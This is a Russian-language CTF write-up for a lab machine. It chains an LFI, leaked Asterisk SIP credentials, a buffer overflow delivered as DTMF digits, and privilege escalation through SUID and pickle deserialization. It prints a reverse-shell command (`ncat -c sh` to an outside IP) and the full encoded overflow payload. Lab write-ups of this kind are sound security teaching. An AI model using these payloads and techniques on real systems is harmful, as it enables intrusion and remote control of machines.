

### Writeup
На 8080 порту нас встречает веб страница HR-ресурса Моя Тюрьма. В ней есть функционал дискового хранилища. В нем уязвимость LFI. Подробности в файле machines/machine-3/web/exploit.sh

С помощью LFI необходимо вытянуть файлы
VOIP/search_engine
VOIP/sip.conf

по sip.conf можно понять что мы имеем дело с астериском, развернутом на 5065 порту, а так же получаем данные для входа
```
[general]
context=incoming
srvlookup=yes
udpbindaddr=0.0.0.0:5065
nat=yes

[1000]
type=friend
host=dynamic
secret=myturmisthebest
context=incoming
dtmfmode=rfc2833
allow=ulaw
allow=alaw
allow=gsm
preferred_codec_only=no
nat=yes
```

подключимся к VOIP серверу с помощью предоставленных данных. Нас встречает таинственный голос рассказывающий о неком новом поисковом движке и что нам стоит его попробовать.
Вспоминаем о бинаре search_engine, грузим его в иду.

Видим, что после массива v5[64] есть массив command[64], который исполняется в system.
пробуем найти способ его переполнить, чуть чуть пореверсив находим как это сделать, нужно заслать 64 символа разделенных звездочкой, а дальше будет сам пейлоад.
Так для `ncat -c sh 41.41.41.41 6671`
пейлоад будет выглядеть как то так ```"5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*5*66*222*2*8*0*11111*222*0*7777*44*0*4444*6666*1*2222*4444*3333*1*2222*0000000000*5555*1*111111*5555*4444*0*6666*6666*77777*00#"```
Решетка на конце заканчивает ввод.

После получения revshell у нас есть доступ к пользователю asterisk, сканим систему и в /usr/local/bin находим бинарь time с suid битом от пользователя t.belov, исполняем любые команды от пользователя t.belov и получаем user shell. Первый флаг получен.

В /etc/sudoers прописано, что файл /home/t.belov/system_monitor может быть запущен с sudo.
system_monitor берет конфиг из файла `/tmp/6DF58AF8-E675-4466-85FC-595333EDAC4B.cfg`, в который сохраняется конфиг, сериализованный с помощью pickle.
С помощью уязвимости в десериализации мы получем RCE от root и достаем финальный флаг, вместе с 3 кусочком ключа к 4 машине
